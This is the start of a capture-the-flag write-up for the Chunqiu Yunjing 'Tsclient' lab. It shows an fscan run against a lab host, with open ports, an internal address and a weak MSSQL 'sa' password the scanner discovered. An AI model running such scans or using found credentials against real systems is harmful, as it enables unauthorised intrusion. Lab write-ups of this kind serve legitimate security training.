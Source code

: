 ```yaml
---
title: "春秋云镜 Tsclient Writeup"
date: 2023-07-30T18:41:02+08:00
lastmod: 2023-07-30T18:41:02+08:00
draft: false
author: "X1r0z"

tags: ['windows', 'mssql', 'domain', 'rdp']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


春秋云镜 Tsclient Writeup



## flag01

fscan

```
$ fscan ./fscan_darwin_arm64 -h 39.99.141.107

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.2
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 39.99.141.107   is alive
[*] Icmp alive hosts len is: 1
39.99.141.107:1433 open
39.99.141.107:139 open
39.99.141.107:135 open
39.99.141.107:80 open
[*] alive ports len is: 4
start vulscan
[*] WebTitle: http://39.99.141.107      code:200 len:703    title:IIS Windows Server
[*] NetInfo:
[*]39.99.141.107
   [->]WIN-WEB
   [->]172.22.8.18
   [->]2001:0:348b:fb58:4f2:1ea1:d89c:7294
[+] mssql:39.99.141.107:1433:sa 1qaz!QAZ
已完成 4/4
[*] 扫描结束,耗时: 19.03864925s
```
